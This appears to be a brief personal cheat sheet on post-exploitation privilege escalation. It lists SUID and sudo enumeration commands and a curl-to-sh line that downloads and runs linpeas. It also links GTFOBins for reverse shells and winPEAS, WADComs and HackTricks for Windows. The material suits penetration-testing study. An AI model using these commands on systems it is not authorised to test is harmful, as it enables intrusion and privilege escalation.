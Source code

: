 # Linux - GTFOBins
## [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#sudo)
### if there is remote code execution you can use gtfobins for reverse shells
### finding binaries with SUID
```bash
find / -perm /4000 2> /dev/null
```

### finding sudo commands
```bash
sudo -l
```

### lastly, use linpeas so it can find every other attack vector for you
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

# Windows - WADComs
## [WADComs](https://wadcoms.github.io/#)
### use winpeas
[winpeas download](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

### use WADComs to exploit whatever winpeas found

## this also has anything you may need [hacktricks.xyz](https://book.hacktricks.xyz/)
